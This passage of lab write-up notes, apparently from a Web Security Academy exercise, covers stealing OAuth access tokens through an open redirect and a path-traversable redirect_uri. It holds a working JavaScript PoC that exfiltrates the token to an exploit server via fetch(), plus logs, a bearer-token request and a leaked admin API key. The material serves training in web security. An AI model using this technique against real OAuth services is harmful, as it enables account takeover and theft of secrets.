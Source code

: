 PoC that exploit the open redirection to starts the OAuth authentication and then exfiltrate the leaked `access_token`:

```html
<script>
if(window.location.hash.substr(1)){
    urlSearchParams = new URLSearchParams(window.location.hash.substr(1));
    token = urlSearchParams.get('access_token');
    fetch('https://exploit-0a0c002903af6c5e814fd992016e00b9.exploit-server.net/exfil?'+token, {});
}else{
    document.location="https://oauth-0a90009f03986ca381a6d814024b0065.oauth-server.net/auth?client_id=tt3v2o2jnsioh04ajnvl8&redirect_uri=https://0ac60016030f6c3d81b6da3400e900d1.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a0c002903af6c5e814fd992016e00b9.exploit-server.net/exploit&response_type=token&nonce=744981384&scope=openid%20profile%20email";
}
</script>

Logs:
10.0.3.108      2023-04-23 14:00:18 +0000 "GET /exploit/ HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36"
10.0.3.108      2023-04-23 14:00:18 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36"
10.0.3.108      2023-04-23 14:00:18 +0000 "GET /exfil?V9yRIZO8JDGM065wyFjh5y0StnRGa2b6oaJHlSDwGkQ HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36"
```

Leaked admin secrets:
```http
GET /me HTTP/2
Host: oauth-0a90009f03986ca381a6d814024b0065.oauth-server.net
Authorization: Bearer V9yRIZO8JDGM065wyFjh5y0StnRGa2b6oaJHlSDwGkQ


HTTP/2 200 OK
Access-Control-Allow-Origin: https://0ac60016030f6c3d81b6da3400e900d1.web-security-academy.net
Access-Control-Expose-Headers: WWW-Authenticate

{"sub":"administrator","apikey":"S1A7R0ucaT9nJ3J3xE9I29EFbl3nInvi","name":"Administrator","email":"administrator@normal-user.net","email_verified":true}
```

>[!example] Example 2 using a path traversal and a Dangerous JavaScript gadget that handles query parameters
>

Discovered the `redirect_uri` parameter is vulnerable to path traversal:
```http
GET /auth?client_id=vezbo7n5myci2j8wvsgkh&redirect_uri=https://0a4400a404fbab3d800c80bf00c100d0.web-security-academy.net/foo&response_type=token&nonce=1682951592&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0a42003d046dab1680507e2d02380016.oauth-server.net


HTTP/1.1 400 Bad Request

---

GET /auth?client_id=vezbo7n5myci2j8wvsgkh&redirect_uri=https://0a4400a404fbab3d800c80bf00c100d0.web-security-academy.net/oauth-callback/../foo&response_type=token&nonce=1682951592&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0a42003d046dab1680507e2d02380016.oauth-server.net


HTTP/1.1 302 Found
```


[^video]: [REDACTED: $20,000 OAuth Bounty (FT. Nagli)](https://www.youtube.com/watch?v=VLgB2fDEMVg&ab_channel=NahamSec), youtube.com